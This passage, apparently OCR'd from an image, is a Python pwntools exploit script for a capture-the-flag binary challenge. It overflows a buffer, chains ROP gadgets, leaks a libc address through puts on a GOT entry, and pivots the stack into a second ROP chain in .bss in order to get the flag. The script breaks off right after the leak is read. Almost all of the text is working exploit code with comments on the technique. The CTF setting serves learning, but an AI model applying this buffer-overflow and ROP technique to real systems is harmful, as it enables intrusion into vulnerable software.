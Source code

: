 ```python  
       return remote(HOST, PORT), libc, '/pwn/flag.txt'

def create_rop(ropchain):  
   buff_len = 0x16  
   payload  = b'A' * buff_len  
   payload += b'B' * 2  
   payload += ropchain

   return payload

def main():  
   io, libc, flag = conn()

   # good luck pwning :)

   # ---------------------------------------------------- #  
   # ---------------------- gadgets --------------------- #  
   # ---------------------------------------------------- #  
   pop_rsp = 0x000000000040139d # pop rsp; pop r13; pop r14; pop r15; ret;  
   pop_rdi = 0x00000000004013a3 # pop rdi; ret;  
   pop_rsi = 0x00000000004013a1 # pop rsi; pop r15; ret;  
   pop_rdx = 0x00000000004011de # pop rdx; ret;

   pwn_dis_shit_ptr = 0x00402004 # 'pwn dis shit'

   # ---------------------------------------------------- #  
   # ------------------- leaking libc ------------------- #  
   # ---------------------------------------------------- #  
   rop = ROP(exe)  
   leak_func = 'read'

   # Note: we MUST leak libc because we do NOT have any 'syscall' instruction!

   # We can use the bss segment to read/write another ropchain.  
   # We need to write another ropchain because we do not know,  
   # at the time of sending this rop, the base of libc.  
   other_ropchain_addr = exe.bss(100)

   # Leak reading with puts the GOT of a function  
   rop.puts(exe.got[leak_func])  
   rop.puts(pwn_dis_shit_ptr) # used as a marker to send the second ropchain

   # Read the second ropchain into memory at the specified address  
   rop.read(0, other_ropchain_addr, 0x1000)

   # PIVOT the stack into the second ropchain  
   # We are popping the RSP register, effectively moving our stack  
   # to the specified popped address. The program will keep executing  
   # normally, but the stack will be at our chosen position  
   rop.raw(pop_rsp)  
   rop.raw(other_ropchain_addr)  
  
   # Just a little debugging trick for ropchains  
log.info('# ================ ROP 1 ================= #')  
log.info(rop.dump())

   # Send the payload  
   payload = create_rop(rop.chain())  
   io.sendlineafter('pwn dis shit', payload)  
  
   # Get the libc leak. We again use https://libc.blukat.me  
   # to find the correct libc version used on the server  
   libc_leak = u64(io.recvuntil('\x7f')[1:].ljust(8, b'\x00'))  
```